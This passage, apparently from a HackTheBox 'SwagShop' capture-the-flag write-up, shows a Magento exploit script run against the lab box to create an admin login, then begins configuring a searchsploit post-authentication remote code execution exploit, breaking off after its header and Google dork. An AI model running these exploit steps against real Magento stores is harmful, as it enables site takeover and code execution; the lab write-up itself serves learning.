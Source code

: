 So if we try appending `index.php` to the `target` variable in the script
{% highlight python %}
target = "http://swagshop.htb/index.php"
{% endhighlight %}

and running the script, 
{% highlight bash %}
$ python magento.py
WORKED
Check http://swagshop.htb/index.php/admin with creds try:again
{% endhighlight %}

It worked ! Lets try to login as `try:again`.

![](/assets/images/swagshop7.png)

# Exploitation (2)

Alright! We got an administrative account which can pretty much have access to all the features on the website. Lets try to establish a foothold on the box which requires another exploit to be used. Back to our searchploit results, there was one exploit that required us to be authenticated.
{% highlight bash %}
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                            | exploits/php/webapps/37811.py
{% endhighlight %}

I've configured the script in this way:
{% highlight python %}
#!/usr/bin/python
# Exploit Title: Magento CE < 1.9.0.1 Post Auth RCE 
# Google Dork: "Powered by Magento"
# Date: 08/18/2015
# Exploit Author: @Ebrietas0 || http://ebrietas0.blogspot.com
# Vendor Homepage: http://magento.com/
# Software Link: https://www.magentocommerce.com/download
# Version: 1.9.0.1 and below
# Tested on: Ubuntu 15